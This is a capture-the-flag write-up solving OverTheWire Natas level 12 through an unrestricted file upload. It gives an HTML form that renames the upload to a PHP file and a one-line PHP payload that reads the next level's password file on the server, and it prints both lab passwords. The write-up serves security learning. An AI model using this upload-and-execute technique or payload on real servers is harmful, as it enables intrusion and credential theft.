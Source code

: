 # [Level 11 to 12](https://overthewire.org/wargames/natas/natas12.html) - Exploit file upload

- Login
```
URL: http://natas12.natas.labs.overthewire.org
Username: natas12
Password: yZdkjAYZRd3R7tq7T5kXMjMJlOIkzDeB
```
- Exercise:
![image](https://github.com/user-attachments/assets/bc198088-c94a-4f8c-9bc0-617bda87fc74)
![image](https://github.com/user-attachments/assets/b98e4e20-afb9-40de-93e8-8192a2cad313)

- Background:
  - Remote code execution (RCE): Vulnerability that allows a malicious hacker to execute arbitrary code in the programming language in which the developer wrote that application
- Solution:
  - Save the following as file `natas12_form.html`: 
  ```html
  <html>
  <form enctype="multipart/form-data" action="http://natas12.natas.labs.overthewire.org/index.php" method="POST">
  <input type="hidden" name="MAX_FILE_SIZE" value="1000" />
  <input type="hidden" name="filename" value="natas12_getpass.php" />
  Choose a JPEG to upload (max 1KB):<br/>
  <input name="uploadedfile" type="file" /><br />
  <input type="submit" value="Upload File" />
  </form>
  </body>
  </html>
  ```
    - Submits a file upload request to the webserver's upload handler `index.php`
    - Telling the server to save the uploaded file as `natas12_getpass.php`
  - Save the following as file `natas12_getpass.php` and load it into `natas12_form.html`:
  ```php
  <?php
  system("cat /etc/natas_webpass/natas13")
  ?>
  ```
    - PHP script that reads the contents of the password file for natas13
    - When this file is executed by the server, the password will be printed on the webpage
  - Open `natas12_form.html` in a browser and upload `natas12_getpass.php`
  - Server saves the file to a location like: `http://natas12.natas.labs.overthewire.org/upload/natas12_getpass.php`
  - Visit that URL in the browser
  - Server executes the PHP file and prints the password for natas13
  - ![image](https://github.com/user-attachments/assets/8bf24710-50dd-4eff-bf94-b84b81aa890d)
  - ![image](https://github.com/user-attachments/assets/40f6d645-2567-4c56-86a2-76a2f2465d93)
  - ![image](https://github.com/user-attachments/assets/f8d0abd9-b252-44be-b4b9-aac9f27389a0)

- Password: `trbs5pCjCrkuSknBBKHhaBxq6Wm1j3LC`
